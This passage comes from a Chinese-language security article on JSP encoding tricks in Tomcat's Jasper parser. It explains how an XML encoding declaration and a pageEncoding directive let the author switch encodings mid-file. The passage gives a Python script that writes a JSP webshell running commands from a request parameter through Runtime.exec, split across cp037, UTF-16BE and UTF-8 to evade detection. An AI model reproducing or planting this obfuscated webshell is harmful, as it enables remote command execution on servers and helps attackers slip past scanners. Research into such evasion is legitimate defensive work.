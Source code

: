 ```bash
    f.write(a0.encode("utf-16be"))
    f.write(a1.encode("utf-8"))
    f.write(a2.encode("utf-16be"))
```

成功利用  
[![11.png](assets/1698894037-dcf2f1e0dbd8d2c7c50511cac44c9efa.png)](https://storage.tttang.com/media/attachment/2022/11/23/ef43d678-ac48-4a81-a629-4b1024ee80a5.png)

#### [三重编码](#toc__6)

在上面的基础上我们还可以进一步利用，为什么呢？我们知道它在识别标签`<jsp:directive.`或`<%@`的过程中是调用了`jspReader.xxx`去实现的，而这个`jspReader`来源于前面的调用

```bash
JspReader jspReader = null;
try {
  jspReader = new JspReader(ctxt, absFileName, sourceEnc, jar, err);
} catch (FileNotFoundException ex) {
  throw new JasperException(ex);
}
```

聪明的你一定能看出这里的`sourceEnc`是我们可以控制的 (前面讲过了忘了往上翻复习下)

因此我们对整个利用梳理一下

1.  保证无法通过 BOM 识别出文本内容编码 (保证 isBomPresent 为 false)
2.  通过`<?xml encoding='xxx'`可以控制`sourceEnc`的值
3.  将标签`<jsp:directive.`或`<%@`放置在全文任意位置但不影响代码解析
4.  通过标签`<jsp:directive.`或`<%@`的`pageEncoding`属性再次更改文本内容编码

这里我按要求随便写了一个符合的例子

```bash
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a3 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test3.jsp","wb") as f:
    f.write(a0.encode("utf-8"))
    f.write(a1.encode("utf-16be"))
    f.write(a2.encode("cp037"))
    f.write(a3.encode("utf-16be"))
```
